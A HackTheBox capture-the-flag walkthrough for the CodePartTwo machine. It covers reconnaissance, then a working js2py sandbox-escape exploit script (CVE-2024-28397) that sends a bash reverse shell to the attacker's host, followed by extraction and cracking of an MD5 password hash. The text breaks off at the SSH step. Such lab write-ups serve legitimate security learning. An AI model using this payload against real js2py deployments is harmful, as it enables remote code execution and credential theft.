# HackTheBox - CodePartTwo  Writeup
**Machine:** CodePartTwo  
**Difficulty:** Easy  
**OS:** Linux  
**IP Address:** 10.10.11.82  

---

## Introduction

CodePartTwo is an Easy-rated Linux machine on HackTheBox that focuses on:
- Web application enumeration
- JavaScript-to-Python (js2py) sandbox escape vulnerability (CVE-2024-28397)
- SQLite database credential extraction
- Password cracking (MD5)
- Privilege escalation via misconfigured backup utility (npbackup)

**Skills Required:**
- Basic Linux command-line knowledge
- Understanding of web applications
- Ability to run reconnaissance tools
- Basic understanding of exploitation concepts

**Skills Learned:**
- js2py sandbox escape exploitation
- Python subprocess.Popen access via JavaScript
- SQLite database enumeration
- Privilege escalation via backup utilities

---

## Reconnaissance

### Step 1: Set Up Your Environment

First, let's add the target IP to your `/etc/hosts` file for easier access (optional but recommended):

```bash
echo "10.10.11.82 codeparttwo.htb" | sudo tee -a /etc/hosts
```

**What this does:** Maps the IP address to a hostname so you can use `codeparttwo.htb` instead of typing the IP every time.

### Step 2: Port Scanning with Rustscan

Rustscan is a fast port scanner that integrates with Nmap. Let's scan all 65,535 ports:

```bash
IP=10.10.11.82
rustscan -a $IP -r 1-65535 --ulimit 5000 -- -sCV -oN rustscan-codeparttwo.txt
```

**Command Breakdown:**
- `rustscan -a $IP`: Scan the target IP
- `-r 1-65535`: Scan all ports from 1 to 65535
- `--ulimit 5000`: Set file descriptor limit for faster scanning
- `-- -sCV`: Pass these flags to Nmap (service version detection + default scripts)
- `-oN rustscan-codeparttwo.txt`: Save output to a file

**Expected Output:**
```
PORT     STATE SERVICE REASON         VERSION
22/tcp   open  ssh     syn-ack ttl 63 OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 a0:47:b4:0c:69:67:93:3a:f9:b4:5d:b3:2f:bc:9e:23 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQCnwmWCXCzed9BzxaxS90h2iYyuDOrE2LkavbNeMlEUPvMpznuB9cs8CTnUenkaIA8RBb4mOfWGxAQ6a/nmKOea1FA6rfGG+fhOE/R1g8BkVoKGkpP1hR2XWbS3DWxJx3UUoKUDgFGSLsEDuW1C+ylg8UajGokSzK9NEg23WMpc6f+FORwJeHzOzsmjVktNrWeTOZthVkvQfqiDyB4bN0cTsv1mAp1jjbNnf/pALACTUmxgEemnTOsWk3Yt1fQkkT8IEQcOqqGQtSmOV9xbUmv6Y5ZoCAssWRYQ+JcR1vrzjoposAaMG8pjkUnXUN0KF/AtdXE37rGU0DLTO9+eAHXhvdujYukhwMp8GDi1fyZagAW+8YJb8uzeJBtkeMo0PFRIkKv4h/uy934gE0eJlnvnrnoYkKcXe+wUjnXBfJ/JhBlJvKtpLTgZwwlh95FJBiGLg5iiVaLB2v45vHTkpn5xo7AsUpW93Tkf+6ezP+1f3P7tiUlg3ostgHpHL5Z9478=
|   256 7d:44:3f:f1:b1:e2:bb:3d:91:d5:da:58:0f:51:e5:ad (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBErhv1LbQSlbwl0ojaKls8F4eaTL4X4Uv6SYgH6Oe4Y+2qQddG0eQetFslxNF8dma6FK2YGcSZpICHKuY+ERh9c=
|   256 f1:6b:1d:36:18:06:7a:05:3f:07:57:e1:ef:86:b4:85 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIEJovaecM3DB4YxWK2pI7sTAv9PrxTbpLG2k97nMp+FM
8000/tcp open  http    syn-ack ttl 63 Gunicorn 20.0.4
|_http-title: Welcome to CodePartTwo
|_http-server-header: gunicorn/20.0.4
| http-methods: 
|_  Supported Methods: GET OPTIONS HEAD
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```



**Key Findings:**
- Port 22: SSH (we'll need credentials for this later)
- Port 8000: HTTP web application running on Gunicorn (Python WSGI server)

---

## Enumeration

### Step 3: Manual Web Exploration

Open your browser and visit:
```
http://10.10.11.82:8000/
```

**What you'll see:**
- A landing page for "CodePartTwo" - a JavaScript code editor
- Three main buttons:
  - **Login** - existing user login
  - **Register** - create new account
  - **Download App** - download source code




**Important Discovery:** The "Download App" link suggests we can review the application's source code!

### Step 4: Directory Fuzzing with Feroxbuster

While browsing manually, let's run a directory fuzzing tool to find hidden endpoints:

```bash
feroxbuster -u http://10.10.11.82:8000/ \
  -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt \
  -t 40 \
  -o ferox-codeparttwo.txt
```

**Command Breakdown:**
- `-u`: Target URL
- `-w`: Wordlist to use for fuzzing
- `-t 40`: Use 40 threads for faster scanning
- `-o`: Output file

**Expected Output:**
```
200  GET   /download
200  GET   /register
200  GET   /login
302  GET   /dashboard
200  GET   /static/css/styles.css
200  GET   /static/js/script.js
```

**Key Finding:** We found `/download`, `/register`, `/login`, and `/dashboard` endpoints.



### Step 5: Register an Account

Navigate to: `http://10.10.11.82:8000/register`

Create an account with these credentials:
- **Username:** testuser
- **Password:** TestPass123

Click "Register" and then log in using the same credentials.

### Step 6: Explore the Dashboard

After logging in, you'll see a dashboard with:
- A text area to enter JavaScript code
- A "Run Code" button
- A "Save Code" button
- A list of your saved code snippets

**Test it:**
Enter this simple JavaScript code:
```javascript
1 + 1
```

Click "Run Code" and you should see the result: `2`



**Key Observation:** The application executes JavaScript code on the server side! This is our potential attack vector.

### Step 7: Network Analysis (Find the API Endpoint)

Open your browser's Developer Tools (F12), go to the **Network** tab, and run some JavaScript code again.

**What you'll see:**
```
POST /run_code HTTP/1.1
Content-Type: application/json

{"code":"1+1"}
```

**Response:**
```json
{"result":2}
```

**Important Finding:** The `/run_code` endpoint receives JavaScript code and executes it server-side. This is where we'll focus our exploitation efforts.



### Step 8: Download and Analyze Source Code

Navigate to: `http://10.10.11.82:8000/download`

This will download a ZIP file containing the application's source code. Extract it:

```bash
cd ~
mkdir codeparttwo_analysis
wget http://10.10.11.82:8000/download -O codeparttwo_app.zip
unzip codeparttwo_app.zip -d codeparttwo_analysis
cd codeparttwo_analysis/app
```



**View the main application file:**
```bash
cat app.py
```

```python
from flask import Flask, render_template, request, redirect, url_for, session, jsonify, send_from_directory
from flask_sqlalchemy import SQLAlchemy
import hashlib
import js2py
import os
import json

js2py.disable_pyimport()
app = Flask(__name__)
app.secret_key = 'S3cr3tK3yC0d3PartTw0'
app.config['SQLALCHEMY_DATABASE_URI'] = 'sqlite:///users.db'
app.config['SQLALCHEMY_TRACK_MODIFICATIONS'] = False
db = SQLAlchemy(app)

class User(db.Model):
    id = db.Column(db.Integer, primary_key=True)
    username = db.Column(db.String(80), unique=True, nullable=False)
    password_hash = db.Column(db.String(128), nullable=False)

class CodeSnippet(db.Model):
    id = db.Column(db.Integer, primary_key=True)
    user_id = db.Column(db.Integer, db.ForeignKey('user.id'), nullable=False)
    code = db.Column(db.Text, nullable=False)

@app.route('/')
def index():
    return render_template('index.html')

@app.route('/dashboard')
def dashboard():
    if 'user_id' in session:
        user_codes = CodeSnippet.query.filter_by(user_id=session['user_id']).all()
        return render_template('dashboard.html', codes=user_codes)
    return redirect(url_for('login'))

@app.route('/register', methods=['GET', 'POST'])
def register():
    if request.method == 'POST':
        username = request.form['username']
        password = request.form['password']
        password_hash = hashlib.md5(password.encode()).hexdigest()
        new_user = User(username=username, password_hash=password_hash)
        db.session.add(new_user)
        db.session.commit()
        return redirect(url_for('login'))
    return render_template('register.html')

@app.route('/login', methods=['GET', 'POST'])
def login():
    if request.method == 'POST':
        username = request.form['username']
        password = request.form['password']
        password_hash = hashlib.md5(password.encode()).hexdigest()
        user = User.query.filter_by(username=username, password_hash=password_hash).first()
        if user:
            session['user_id'] = user.id
            session['username'] = username;
            return redirect(url_for('dashboard'))
        return "Invalid credentials"
    return render_template('login.html')

@app.route('/logout')
def logout():
    session.pop('user_id', None)
    return redirect(url_for('index'))

@app.route('/save_code', methods=['POST'])
def save_code():
    if 'user_id' in session:
        code = request.json.get('code')
        new_code = CodeSnippet(user_id=session['user_id'], code=code)
        db.session.add(new_code)
        db.session.commit()
        return jsonify({"message": "Code saved successfully"})
    return jsonify({"error": "User not logged in"}), 401

@app.route('/download')
def download():
    return send_from_directory(directory='/home/app/app/static/', path='app.zip', as_attachment=True)

@app.route('/delete_code/<int:code_id>', methods=['POST'])
def delete_code(code_id):
    if 'user_id' in session:
        code = CodeSnippet.query.get(code_id)
        if code and code.user_id == session['user_id']:
            db.session.delete(code)
            db.session.commit()
            return jsonify({"message": "Code deleted successfully"})
        return jsonify({"error": "Code not found"}), 404
    return jsonify({"error": "User not logged in"}), 401

@app.route('/run_code', methods=['POST'])
def run_code():
    try:
        code = request.json.get('code')
        result = js2py.eval_js(code)
        return jsonify({'result': result})
    except Exception as e:
        return jsonify({'error': str(e)})

if __name__ == '__main__':
    with app.app_context():
        db.create_all()
    app.run(host='0.0.0.0', debug=True)

```

**Critical Code Section:**

```python
import js2py

js2py.disable_pyimport()

@app.route('/run_code', methods=['POST'])
def run_code():
    try:
        code = request.json.get('code')
        result = js2py.eval_js(code)
        return jsonify({'result': result})
    except Exception as e:
        return jsonify({'error': str(e)})
```



**Analysis:**
- The application uses `js2py` library to execute JavaScript code in Python
- `js2py.disable_pyimport()` attempts to disable Python imports from JavaScript
- User input goes directly to `js2py.eval_js()` without sanitization
- This is vulnerable to **CVE-2024-28397** - a known js2py sandbox escape!

**Other Important Findings in app.py:**
```python
app.config['SQLALCHEMY_DATABASE_URI'] = 'sqlite:///users.db'

# Password hashing uses MD5 (weak!)
password_hash = hashlib.md5(password.encode()).hexdigest()
```

The application uses SQLite database and MD5 hashing (insecure, but good for us as attackers).

---

## Initial Access

### Step 9: Understanding CVE-2024-28397

**What is js2py?**
- A Python library that translates JavaScript to Python and executes it
- Designed to run JavaScript code safely in a Python environment
- Has a known vulnerability allowing access to Python's underlying object system

**The Vulnerability:**
Even though `js2py.disable_pyimport()` is called, we can still access Python objects through JavaScript's prototype chain using:
- `Object.getOwnPropertyNames({}).__class__.__base__`
- This gives us access to Python's `object` base class
- From there, we can traverse to `subprocess.Popen` for command execution

**Why this works:**
JavaScript objects in js2py are actually Python objects under the hood. By accessing special Python attributes like `__class__` and `__base__`, we can "escape" the JavaScript sandbox.

### Step 10: Craft the Exploitation Payload

Create a Python script that will exploit the vulnerability:

```bash
cat > /tmp/js2py_exploit.py <<'EXPLOIT'
#!/usr/bin/env python3
import requests
import json

# Target URL
url = 'http://10.10.11.82:8000/run_code'

# Your attacker machine IP (find with: ip a show tun0)
LHOST = "10.10.14.194"  # CHANGE THIS TO YOUR IP
LPORT = 4444

# The JavaScript payload that escapes the sandbox
js_code = f"""
let cmd = "bash -c 'bash -i >& /dev/tcp/{LHOST}/{LPORT} 0>&1'";
let a = Object.getOwnPropertyNames({{}}).__class__.__base__.__getattribute__;
let obj = a(a(a,"__class__"), "__base__");
function findpopen(o) {{
    let result;
    for(let i in o.__subclasses__()) {{
        let item = o.__subclasses__()[i];
        if(item.__module__ == "subprocess" && item.__name__ == "Popen") {{
            return item;
        }}
        if(item.__name__ != "type" && (result = findpopen(item))) {{
            return result;
        }}
    }}
}}
let result = findpopen(obj)(cmd, -1, null, -1, -1, -1, null, null, true).communicate();
result;
"""

payload = {"code": js_code}
headers = {"Content-Type": "application/json"}

print("[+] Sending exploit payload...")
r = requests.post(url, data=json.dumps(payload), headers=headers, timeout=5)
print(f"[*] Response: {r.text}")
EXPLOIT

chmod +x /tmp/js2py_exploit.py
```

**Payload Explanation Line-by-Line:**

1. **`let cmd = "bash -c 'bash -i >& /dev/tcp/{LHOST}/{LPORT} 0>&1'";`**
   - This is the reverse shell command we want to execute
   - It creates a bash shell and redirects it to our listening machine

2. **`let a = Object.getOwnPropertyNames({}).__class__.__base__.__getattribute__;`**
   - `Object.getOwnPropertyNames({})` - Gets property names of an empty object
   - `.__class__` - Access the Python class of the object
   - `.__base__` - Get the base class (Python's `object` class)
   - `.__getattribute__` - Get the method that retrieves attributes

3. **`let obj = a(a(a,"__class__"), "__base__");`**
   - Navigate to the ultimate base `object` class in Python
   - This gives us access to all Python classes

4. **`function findpopen(o) { ... }`**
   - Recursively search through all Python subclasses
   - Look for the `subprocess.Popen` class
   - This class allows us to execute system commands

5. **`findpopen(obj)(cmd, ...)`**
   - Execute our reverse shell command using subprocess.Popen

**Before running the exploit, find your VPN IP:**
```bash
ip a show tun0 | grep "inet " | awk '{print $2}' | cut -d'/' -f1
```

Replace the `LHOST = "10.10.14.194"` line in the script with your IP.

### Step 11: Set Up Reverse Shell Listener

Open a **new terminal window** and start a netcat listener:

```bash
nc -lvnp 4444
```

**Command Breakdown:**
- `nc`: Netcat tool
- `-l`: Listen mode
- `-v`: Verbose output
- `-n`: No DNS resolution
- `-p 4444`: Listen on port 4444

**Expected Output:**
```
listening on [any] 4444 ...
```

Leave this terminal open and waiting.

### Step 12: Execute the Exploit

In your **original terminal**, run the exploit:

```bash
python3 /tmp/js2py_exploit.py
```



**In the netcat listener terminal, you should see:**
```
connect to [10.10.14.194] from (UNKNOWN) [10.10.11.82] 56450
bash: cannot set terminal process group (857): Inappropriate ioctl for device
bash: no job control in this shell
app@codeparttwo:~/app$ 
```



** Success! You now have a shell as the `app` user! **

### Step 13: Stabilize the Shell

The initial shell is limited. Let's make it fully interactive:

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm
```

Press `Ctrl+Z` to background the shell, then run:
```bash
stty raw -echo; fg
```

Press `Enter` twice. Now you have a fully interactive shell!

**Test it:**
```bash
id
whoami
hostname
pwd
```

**Expected Output:**
```
uid=1001(app) gid=1001(app) groups=1001(app)
app
codeparttwo
/home/app/app
```



---

## User Access

### Step 14: Enumerate the System

Now that we have initial access, let's explore:

```bash
# List users on the system
ls /home
```

**Output:**
```
app  marco
```

We found another user: **marco**. Let's see if we can find credentials.

### Step 15: Find and Extract the Database

The source code mentioned a SQLite database. Let's locate it:

```bash
find /home/app -name "users.db" 2>/dev/null
```

**Output:**
```
/home/app/app/instance/users.db
```



**View the database structure:**
```bash
sqlite3 /home/app/app/instance/users.db ".tables"
```

**Output:**
```
code_snippet  user
```

**Dump the user table:**
```bash
sqlite3 /home/app/app/instance/users.db "SELECT username, password_hash FROM user;"
```

**Output:**
```
marco|649c9d65a206a75f5abe509fe128bce5
app|a97588c0e2fa3a024876339e27aeb42e
```



**Important Finding:** We have marco's password hash: `649c9d65a206a75f5abe509fe128bce5`

### Step 16: Identify Hash Type

On your **attacker machine** (not in the reverse shell), save the hash:

```bash
echo '649c9d65a206a75f5abe509fe128bce5' > /tmp/marco.hash
```

**Identify the hash type:**
```bash
hashid /tmp/marco.hash
```

**Output:**
```
--File '/tmp/marco.hash'--
Analyzing '649c9d65a206a75f5abe509fe128bce5'
[+] MD2 
[+] MD5 
[+] MD4 
[+] Double MD5 
[+] LM 
[+] RIPEMD-128 
[+] Haval-128 
[+] Tiger-128 
[+] Skein-256(128) 
[+] Skein-512(128) 
[+] Lotus Notes/Domino 5 
[+] Skype 
[+] Snefru-128 
[+] NTLM 
[+] Domain Cached Credentials 
[+] Domain Cached Credentials 2 
[+] DNSSEC(NSEC3) 
[+] RAdmin v2.x 
--End of file '/tmp/marco.hash'--  
```



The hash is **MD5** (32 characters, hexadecimal).

### Step 17: Crack the Password with Hashcat

Use hashcat to crack the MD5 hash:

```bash
hashcat -m 0 -a 0 /tmp/marco.hash /usr/share/wordlists/rockyou.txt --force
```

**Command Breakdown:**
- `-m 0`: MD5 hash mode
- `-a 0`: Dictionary attack
- `/tmp/marco.hash`: File containing the hash
- `/usr/share/wordlists/rockyou.txt`: Popular password wordlist
- `--force`: Force run (ignores warnings)

**After a few seconds:**
```
649c9d65a206a75f5abe509fe128bce5:sweetangelbabylove

Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 0 (MD5)
Time.Started.....: Thu Nov 20 09:58:19 2025
Recovered........: 1/1 (100.00%) Digests
Progress.........: 3448832/14344385 (24.04%)
```

** Password Found: `sweetangelbabylove`**



### Step 18: SSH as Marco

